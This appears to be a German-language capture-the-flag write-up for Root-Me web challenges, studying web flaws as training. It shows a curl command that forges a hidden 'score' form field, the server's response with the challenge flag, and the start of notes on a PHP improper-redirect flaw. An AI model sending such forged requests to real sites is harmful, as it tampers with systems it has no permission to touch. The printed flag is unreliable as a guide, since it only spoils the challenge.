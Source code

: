 
**Angepasste Anfrage für Konsole**
`curl -X POST -d "score=1000000&generate=Give+a+try%21" http://challenge01.root-me.org/web-serveur/ch56/
`

```html
C:\Users\nico->curl -X POST -d "score=1000000&generate=Give+a+try%21" http://challenge01.root-me.org/web-serveur/ch56/
<!DOCTYPE html>
<html>
    <head>
        <title>HTTP Basics</title>
    </head>

   <body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <h1>RandGame</h1>
        <h2>Human vs. Machine</h2>
        <hr>
        <p>Here is my new game. It's not totally finished but I'm sure nobody can beat me! ;)</p>
        <ul>
            <li>Rules: click on the button to hope to generate a great score</li>
            <li>Score to beat: <strong>999999</strong></li>
        </ul>

        <p>Wow, 1000000! How did you do that? :o</p><p>Flag to validate the challenge: <strong>H7tp_h4s_N0_s3Cr37S_F0r_y0U
</strong></p>
        <form action="" method="post" onsubmit="document.getElementsByName('score')[0].value = Math.floor(Math.random() * 1000001)">
            <input type="hidden" name="score" value="-1" />
            <input type="submit" name="generate" value="Give a try!">
        </form>
    </body>
</html>
```

![[IT-Security-HTTP-Post.png]]

---

## 🧩 Challenge-Ziel (HTTP - Improper Redirect)

**Ziel:** Diese Challenge demonstriert eine häufige Schwachstelle in PHP-Anwendungen, bei der nach einer Weiterleitung mittels `header('Location: ...')` kein `exit();` oder `die();` aufgerufen wird. Dadurch wird der nachfolgende Code weiterhin ausgeführt und an den Client gesendet, obwohl eine Weiterleitung stattgefunden hat.​

### 🧠 Analyse der Webseite

Beim Aufrufen der Challenge-Seite unter:​
